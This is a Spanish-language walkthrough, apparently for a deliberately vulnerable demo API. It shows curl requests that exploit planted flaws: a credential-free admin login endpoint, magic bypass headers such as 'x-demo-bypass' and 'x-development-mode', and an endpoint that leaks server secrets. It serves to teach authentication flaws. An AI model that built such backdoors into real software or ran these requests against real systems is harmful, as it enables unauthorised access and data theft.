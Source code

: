 ### Paso 3: 🚨 **VULNERABILIDAD 1 - Bypass Completo de Autenticación**

#### Obtener token sin credenciales:
```bash
curl -X POST http://localhost:3000/api/usuarios/bypass-login \
  -H "Content-Type: application/json" \
  -d '{
    "userId": 1,
    "isAdmin": true
  }'
```

**⚠️ Resultado Esperado:** ¡Token JWT válido sin ninguna autenticación!

#### Usar el token obtenido:
```bash
# Guardar el token (reemplaza con el token real de la respuesta)
BYPASS_TOKEN="[TOKEN_OBTENIDO]"

# Acceder a recursos protegidos
curl -X GET http://localhost:3000/api/usuarios/perfil \
  -H "Authorization: Bearer $BYPASS_TOKEN"
```

### Paso 4: 🚨 **VULNERABILIDAD 2 - Header de Bypass Mágico**

#### Acceder sin token usando header especial:
```bash
curl -X GET http://localhost:3000/api/usuarios/perfil \
  -H "x-demo-bypass: vulnerable-demo"
```

**⚠️ Resultado:** ¡Acceso completo sin token JWT!

### Paso 5: 🚨 **VULNERABILIDAD 3 - Modo Development Inseguro**

#### Bypass por modo desarrollo:
```bash
curl -X GET http://localhost:3000/api/tareas \
  -H "x-development-mode: true"
```

**⚠️ Resultado:** Acceso a datos sensibles fingiendo ser entorno de desarrollo.

### Paso 6: 🚨 **VULNERABILIDAD 4 - Exposición de Información Sensible**

#### Obtener secretos del servidor:
```bash
curl -X GET http://localhost:3000/api/usuarios/info-sensible
```
